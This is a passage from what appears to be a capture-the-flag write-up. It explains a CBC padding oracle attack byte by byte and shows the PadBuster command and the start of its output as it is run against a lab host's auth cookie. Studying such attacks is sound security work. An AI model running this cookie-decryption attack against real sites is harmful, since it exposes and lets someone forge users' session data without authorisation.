 The attack works on one block at a time, so it will grab the first 16 bytes of the ciphertext, which is the eight byte IV and the first eight bytes of encrypted data. Then, fill the first seven bytes of the IV with anything, and submit 256 times with each possible value for the last byte in the IV. Most of the time, 255 of those will return a padding error, because the last intermediate byte XOR the last IV byte will not be 0x01, the correct final padding (final since I cut the ciphertext down so this is the final block). When there is no padding error, then the last plaintext byte generates must be 0x01. Knowing the last IV byte that generates a 0x01, that means I can xor what I submitted by 0x01 and get the intermediate byte at that position.

To move to the next byte, now I want to find plaintext ending in “0x0202”. Since I know the last byte of the intermediate, I can calculate the last IV byte needed to make that 0x02. Then I’ll test 256 options to find how to make the other byte 0x02, and now have the next intermediate value.

Once I have all eight intermediate bytes, I can simply xor those by the original legit IV to get the plaintext for that block. Once I am done with the first block, I can add the next block of ciphertext, and instead of sending a malicious IV, I’ll manipulate the previous block.

For more details with examples, check out [this post](https://robertheaton.com/2013/07/29/padding-oracle-attack/) or [this post](https://resources.infosecinstitute.com/padding-oracle-attack-2/).

#### padbuster

With an understanding of how the attack works (or really, even with just the high level understanding that we can differentiate padding errors from other errors), there is a tool that will automate this attack, [PadBuster](https://github.com/AonCyberLabs/PadBuster). I can install with `apt install padbuster`, and then run it. The usage from the help is:

```

Use: padbuster URL EncryptedSample BlockSize [options] 

```

I’ll run it with the following:
- [URL] - `http://10.10.10.18/index.php`
- [EncryptedSample] - `LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U`, a valid cookie, and it’s smart enough to handle that url-encoded `%2F`.
- [BlockSize] - `8`, from the analysis above; it’ll almost always bee 8 or 16.
- `-cookies auth=LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U` - show padbuster where to put the data
- `-encoding 0` - base64

I’ll run this, and the first thing it does it try 256 requests and ask me to say which is the padding error:

```

root@kali# padbuster http://10.10.10.18/index.php LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U 8 -cookies auth=LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U -encoding 0
+-------------------------------------------+                                           
| PadBuster - v0.3.3                        |                                           
| Brian Holyfield - Gotham Digital Science  |                                           
| labs@gdssecurity.com                      |                                           
+-------------------------------------------+                                           

INFO: The original request returned the following                                       
[+] Status: 200                             
[+] Location: N/A                           
[+] Content Length: 978                     

INFO: Starting PadBuster Decrypt Mode       
*** Starting Block 1 of 2 ***               

INFO: No error string was provided...starting response analysis                         
*** Response Analysis Complete ***          

The following response signatures were returned:                                        
-------------------------------------------------------                                 
ID#     Freq    Status  Length  Location                                                
```